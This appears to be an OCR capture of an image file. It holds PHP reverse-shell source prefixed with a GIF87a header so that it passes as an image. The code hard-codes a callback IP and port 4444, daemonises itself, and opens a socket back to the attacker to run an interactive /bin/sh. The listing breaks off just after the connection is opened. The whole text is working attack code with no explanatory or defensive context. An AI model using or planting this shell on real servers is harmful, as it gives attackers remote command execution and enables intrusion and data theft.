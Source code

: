 	GIF87a
	<?php

	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '192.168.16.130';  // CHANGE THIS
	$port = 4444;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/sh -i';
	$daemon = 0;
	$debug = 0;

	//
	// Daemonise ourself if possible to avoid zombies later
	//

	// pcntl_fork is hardly ever available, but will allow us to daemonise
	// our php process and avoid zombies.  Worth a try...
	if (function_exists('pcntl_fork')) {
		// Fork and have the parent process exit
		$pid = pcntl_fork();
		
		if ($pid == -1) {
			printit("ERROR: Can't fork");
			exit(1);
		}
		
		if ($pid) {
			exit(0);  // Parent exits
		}

		// Make the current process a session leader
		// Will only succeed if we forked
		if (posix_setsid() == -1) {
			printit("Error: Can't setsid()");
			exit(1);
		}

		$daemon = 1;
	} else {
		printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
	}

	// Change to a safe directory
	chdir("/");

	// Remove any umask we inherited
	umask(0);

	//
	// Do the reverse shell...
	//

	// Open reverse connection
	$sock = fsockopen($ip, $port, $errno, $errstr, 30);
	if (!$sock) {
		printit("$errstr ($errno)");
		exit(1);
	}
